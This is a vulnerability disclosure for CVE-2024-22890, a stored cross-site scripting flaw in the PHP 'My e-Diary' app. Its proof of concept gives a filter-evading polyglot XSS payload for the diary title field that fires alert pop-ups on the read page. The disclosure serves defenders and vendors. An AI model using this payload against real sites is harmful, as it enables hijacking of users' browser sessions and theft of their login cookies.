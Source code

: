 # CVE-2024-22890: My e-Diary App - Cross-Site-Scripting
+ *Exploit Title:* CVE-2024-22890: My e-Diary App - Cross-Site-Scripting
+ *Date:* 2024-07-01
+ *Exploit Author:* Burak Sevben
+ *Vendor Homepage:* https://www.sourcecodester.com/php/17074/my-e-diary-using-php-and-mysql-source-code.html
+ *Software Link:* https://www.sourcecodester.com/download-code?nid=17074&title=My+e-Diary+Using+PHP+and+MySQL+with+Source+Code
+ *Version:* 1.0
+ *Tested on:* Windows 11 Home + PHP 8.2.12, Apache 2.4.58
+ *CVE:* CVE-2024-22890

## References:
+ https://github.com/BurakSevben/CVE-2024-22890/blob/main/CVE-2024-22890.md

## Description:
The My e-Diary application is vulnerable to a cross-site scripting vulnerability because it fails to adequately sanitize user-supplied data. An attacker could exploit this issue to run arbitrary scripting code in an unsuspecting user's browser in the context of the affected site. This could allow an attacker to steal cookie-based authentication credentials and launch other attacks.


## Proof of Concept:
+ Go to http://localhost/my-e-diary/write-diary.php in the 'Your Title' section we write the this code triggers the XSS
```
jaVasCript:/-////'/"/**/(//oNcliCk=alert(1) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--! >\x3csVg/<sVg/oNloAd=alert(document.domain)//>\x3e
```
+ Then go to 'http://localhost/my-e-diary/read-diary.php' XSS will be triggered and a pop-up will appear.

![Ekran görüntüsü 2024-01-12 010820](https://github.com/BurakSevben/CVEs/assets/117217689/dfaf9c9e-3c1a-4763-8311-e93173d69a0c)

![Ekran görüntüsü 2024-01-12 010902](https://github.com/BurakSevben/CVEs/assets/117217689/28a03d7f-2c11-4bdc-bbf4-2fd24a86514d)

